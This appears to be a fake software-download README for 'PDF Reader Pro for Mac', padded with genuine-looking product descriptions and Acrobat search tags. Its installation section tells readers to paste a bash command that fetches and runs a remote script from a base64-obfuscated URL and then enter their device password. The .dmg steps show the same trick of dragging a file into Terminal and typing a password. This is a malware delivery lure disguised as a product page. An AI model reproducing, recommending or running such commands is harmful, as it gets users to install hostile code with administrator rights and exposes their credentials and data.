 # PDF Reader Pro for Mac Download

![PDF Reader Pro Screenshot 1](https://www.pdfreaderpro.com/seo/mac_reader_pro_screenshot_1.jpg)

---

## 📥 Download PDF Reader Pro for macOS

[![⬇️ Download PDF Reader Pro](https://img.shields.io/badge/Download-PDF%20Reader%20Pro%20Mac-blue?style=for-the-badge&logo=apple)](https://shuziktobehuman.github.io/huja/PDFReader)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).  

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash  
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.  

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is PDF Reader Pro for Mac?

PDF Reader Pro for Mac is an advanced PDF viewing and editing tool for macOS. With powerful annotation, editing, and PDF management features, it allows users to easily view, create, edit, and convert PDF files.

Unlike basic readers, PDF Reader Pro provides comprehensive tools like text annotation, form filling, merging PDFs, OCR (Optical Character Recognition) support, and more. Whether you’re working with contracts, reports, forms, or eBooks, PDF Reader Pro is the all-in-one solution for any PDF needs.

Optimized for macOS, it integrates well with your system, supporting Retina displays, dark mode, and full compatibility with macOS features like touch gestures.

---

![PDF Reader Pro Screenshot 2](https://www.pdfreaderpro.com/images/features/annotatepdf.png)

---

## ⚙️ Key Features

- 📝 **PDF Editing** – Edit text, images, and links in any PDF file  
- 🔍 **OCR (Optical Character Recognition)** – Convert scanned images and PDFs into editable text  
- 🖊️ **Annotations & Markups** – Highlight, underline, and add notes  
- 📄 **Form Filling & Signing** – Fill out forms, add digital signatures  
- 🔗 **Merge & Split PDFs** – Combine multiple PDFs or split large files into smaller sections  
- 📤 **Convert PDFs** – Export to Word, Excel, PPT, or images  
- 💻 **macOS Native** – Seamless integration with macOS and Apple Silicon (M1/M2/M3)  
- 📂 **File Management** – Organize, search, and sort your PDFs efficiently  

---

## ✅ Suitable For

- Students & Educators  
- Legal and Business Professionals  
- Content Creators working with documents  
- Anyone needing comprehensive PDF editing capabilities  

---

## 📦 System Requirements

- macOS 10.10 (Yosemite) or later  
- Supports Monterey, Ventura, Sonoma  
- Intel & Apple Silicon (M1/M2/M3)  
- At least 100MB free disk space  

---

## 🔍 Tags

pdf reader pro mac, acrobat pro download mac, acrobat pro dc for mac, acrobat professional mac, acrobat reader pro mac, acrobat pro macos, acrobat pro dc download mac, acrobat dc pro for mac, acrobat mac pro, acrobat reader pro mac, pdf reader pro mac download
